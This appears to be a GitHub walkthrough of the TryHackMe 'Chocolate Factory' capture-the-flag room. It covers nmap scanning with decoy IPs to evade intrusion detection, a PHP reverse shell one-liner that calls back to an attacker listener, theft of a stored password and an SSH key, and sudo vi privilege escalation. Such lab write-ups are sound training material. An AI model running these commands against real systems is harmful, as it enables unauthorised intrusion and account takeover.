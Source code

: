 
![intro](https://github.com/user-attachments/assets/50e81e51-d8d8-4b71-9227-35567c08f0f4)

# tryhackme-Chocolate Factory-writeup
This is a walkthrough for the tryhackme CTF Chocolate Factory. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals many open ports, but I'll just focus on the relavent ones:
![nmap](https://github.com/user-attachments/assets/6967f154-8e11-4172-b1bc-95659d16b9f1)

The web server on port 80 takes to you a login panel that uses a validate.php function. The nmap scan took a while so I also ran scans with gobuster and nikto.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x php,txt,jpg -o buster.txt
```
I checked out the home.php dir and it took me to the squirrel room, which has an command input. I will try to run a simple php reverse shell. Let's head to revshells.com, input your IP and desired port, and I'm going to use the PHP exec shell. I'm choosing a short php shell since the site clearly uses php for many of it's functions:
```bash
php -r '$sock=fsockopen("10.10.191.134",9001);exec("sh <&3 >&3 2>&3");'
```
On kali we'll run the netcat listener:
```bash
nc -lvnp 9001
```
We now a primative shell as www-data!
First, let's upgrade the shell for improved function and stability:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
ctrl -z
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
Taking a look at www-data's home directory we see validate.php, which includes a password for Charlie:
![charlie](https://github.com/user-attachments/assets/98932712-e5a2-4ebb-ba2c-3659b083fafd)
I tried to switch users to charlie with this password but no luck. Now that I think about it, the login on the web server displayed the validate.php function, so this is displaying the code behind that. Let's see what else we can find...
The file key_rev_key contains a key that will can answer the questions with:
![key_rev_key](https://github.com/user-attachments/assets/0f2222a6-1299-4d3a-a160-2bb78f147715)

Next, let's go to charlie's home dir. We don't have the permissions to cat user.txt but teleport contains an rsa key, most likely for charlie.
![rsa](https://github.com/user-attachments/assets/eddd0419-6723-46b8-893d-20a7bcb1b9d7)

This rsa key gives us everything needed to ssh as charlie:
![ssh](https://github.com/user-attachments/assets/1fb4f963-d1de-4885-9e05-979ce0ff0a6b)

Let's cd to charlies home dir and get the user.txt.
sudo -l looks interesting:
![sudo -l](https://github.com/user-attachments/assets/a4a09f4f-0d89-403c-816d-59d2ab4e5c8d)

Let's check that out on gtfobins.github.io
It worked!
![vi](https://github.com/user-attachments/assets/b9a17f0b-cfa4-4033-8b92-6453573789cd)
